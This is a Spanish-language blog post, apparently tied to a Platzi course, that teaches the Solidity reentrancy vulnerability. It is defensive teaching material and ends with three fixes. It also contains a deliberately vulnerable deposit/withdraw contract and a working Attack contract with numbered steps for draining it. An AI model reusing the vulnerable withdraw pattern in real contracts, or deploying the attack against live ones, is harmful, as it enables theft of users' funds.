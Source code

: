 ```yaml
---
title: 'Solidity: Ataque Reentrancy'
description: 'Uno de los problemas de seguridad más comunes es el denominado Reetrancy que provoca llamadas recursivas a una misma función de un contrato hasta vaciar los fondos del mismo.'
image: '/tech/solidity.webp'
pubDate: '06/01/2023'
englishMetadata: {
  title: 'Solidity: Reetrancy Attack',
  description: 'One of the most common security problems is called Reetrancy, which causes recursive calls to the same function of a contract until the funds are emptied.'
}
prev: 'dos-gas'
next: 'cross-reentrancy-attack'
---
```


# Solidity: Ataque Reentrancy

**El depósito y retiro de ETH en un contrato** por parte de un usuario **puede exponer vulnerabilidades** si los mismos no se realizan de la forma correcta.

## Reentrada de transacciones

Uno de los problemas de seguridad más comunes es el denominado **Reetrancy** que provoca llamadas recursivas a una misma función de un contrato hasta vaciar los fondos del mismo.

Veamos de qué se trata esta vulnerabilidad y cómo prevenirla a través de un simple ejemplo:

### Explicación del contrato vulnerado

Utilizaremos de ejemplo un contrato inteligente que permite depositar y retirar ETH. Cada dirección solo puede retirar sus propios fondos, pero la vulnerabilidad permitirá que un atacante se quede con todos los fondos.

> **NOTA:** El ejemplo de esta vulnerabilidad fue tomado y adaptado originalmente de [Solidity by examples](https://solidity-by-example.org/hacks/re-entrancy/ "Solidity by examples").

### Contratos involucrados

Comencemos con el contrato principal que contiene la lógica de negocios para el depósito y retiro de Ether.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract EtherStore {
  mapping(address => uint) public balances;

  // Deposito de ETH
  function deposit() public payable {
    balances[msg.sender] += msg.value;
  }

  // Retiro de ETH
  function withdraw() public {
    uint monto = balances[msg.sender];
    require(monto > 0);

    (bool sent, ) = msg.sender.call{value: monto}("");
    require(sent, "El envio de ETH ha fallado.");
    balances[msg.sender] = 0;
  }

  // Funciona auxiliar para visualizar el balance total del contrato
  function getBalance() public view returns (uint) {
    return address(this).balance;
  }
}
```

Por otro lado, el contrato atacante. Presta atención a la función `receive()` que es la vía por la cual se genera la recursividad y permite el robo de todos los fondos.

```js
contract Attack {
  EtherStore public etherStore;

  constructor(address _etherStoreAddress) {
    // Creamos la instancia de EtherStore.
    etherStore = EtherStore(_etherStoreAddress);
  }

  // Función receive() es llamada cuando EtherStore envia ETH a este contrato.
  receive() external payable {
    // Al retirar el primer ETH, EtherStore lo enviará a este hook que vuelve a llamar a withdraw de forma recursiva
    if (address(etherStore).balance >= 1 ether) {
      etherStore.withdraw();
    }
  }

  // El ataque consiste en depositar 1 ETH e inmediatamente retirarlo
  function attack() external payable {
    require(msg.value >= 1 ether);
    etherStore.deposit{value: 1 ether}();
    etherStore.withdraw();
  }

  // Funciona auxiliar para visualizar el balance total del contrato.
  function getBalance() public view returns (uint) {
    return address(this).balance;
  }
}
```

### Procedimiento para vulnerar el contrato

1. Desplegar el contrato `EtherStore`.
2. Depositar 1 ETH con dos cuentas. Hasta este punto, el contrato tendría 2 ETH.
3. Desplegar contrato `Attack` que recibe en el constructor la dirección de `EtherStore`.
4. Hacer el llamado a `Attack.attack` enviando 1 ETH con una tercera cuenta para tener acceso a realizar una extracción. El contrato atacante recibirá los 3 ETH.

### ¿Qué sucedió aquí?

`Attack` llamó a `EtherStore.withdraw` múltiples veces antes de que `EtherStore.withdraw` finalice su ejecución.

**Así es el orden de llamados de las funciones:**
- `Attack.attack`
- `EtherStore.deposit`
- `EtherStore.withdraw`
- `Attack.receive()` (recibes 1 ETH)
- `EtherStore.withdraw`
- `Attack.receive()` (recibes 1 ETH)
- `EtherStore.withdraw`
- `Attack.receive()` (recibes 1 ETH)

### ¿Por qué sucedió?

Al realizarse las llamadas de forma recursiva, **el balance de la cuenta del atacante nunca llega a 0** y, por lo tanto, permite seguir haciendo retiros. Observa que el balance de la cuenta del contrato atacante se setea a 0 recién en la última línea de código de la función `withdraw()`.

```js
function withdraw() public {
    uint monto = balances[msg.sender];
    require(monto > 0);
    (bool sent, ) = msg.sender.call{value: monto}("");
    require(sent, "El envio de ETH ha fallado.");
    balances[msg.sender] = 0;
}
```

### ¿Cómo se puede evitar?

Hay al menos tres medidas que puedes tomar para evitar este enorme problema de seguridad.

1. El primero es **mover el seteo del balance a 0 antes del llamado a la función externa**.

```js
function withdraw() public {
  uint monto = balances[msg.sender];
  require(monto > 0);

  balances[msg.sender] = 0;   // Seteo del balance antes del 'msg.sender.call'

  (bool sent, ) = msg.sender.call{value: monto}("");
  require(sent, "El envio de ETH ha fallado.");
}
```
Corresponde setear a 0 el balance de la cuenta que retira sus fondos antes de realizar el llamado externo. En el caso de que el llamado falle por otro motivo, no te preocupes, ya que el `require()` hará un `revert()` y los balances volverán a como estaban antes del fallo.

2. También puedes **setear el uso del gas en la llamada externa**.

```js
(bool sent, ) = msg.sender.call{value: monto, gas: 10000}("");
```
Siempre es aconsejable configurar el gas disponible para un llamado externo

3. Otra forma de solucionar esta vulnerabilidad es con **un modificador que valide que la función no se esté llamando de forma recursiva**. Afortunadamente, [OpenZeppelin ya tiene un contrato auditado y seguro](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/security/ReentrancyGuard.sol "OpenZeppelin ya tiene un contrato auditado y seguro") para solventar este problema.

```js
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract EtherStore is ReentrancyGuard {
  // ...

  function withdraw() public nonReentrant {
    // ...
  }
}
```

## Conclusión

Has visto hasta aquí la exigencia de desarrollar un contrato inteligente que administre correctamente fondos. Un simple cambio de orden en la lógica de un contrato puede causar perdidas millonarias. Claro que ya las ha causado y, por este motivo, **Reentrancy** es una vulnerabilidad bien conocida que debes prevenir estudiando su funcionamiento y escribiendo código de forma segura.

---
Post creado en colaboración con el [Curso de Seguridad de Smart Contracts](https://platzi.com/cursos/seguridad-smart-contracts/ "Curso de Seguridad de Smart Contracts") de **Platzi**.
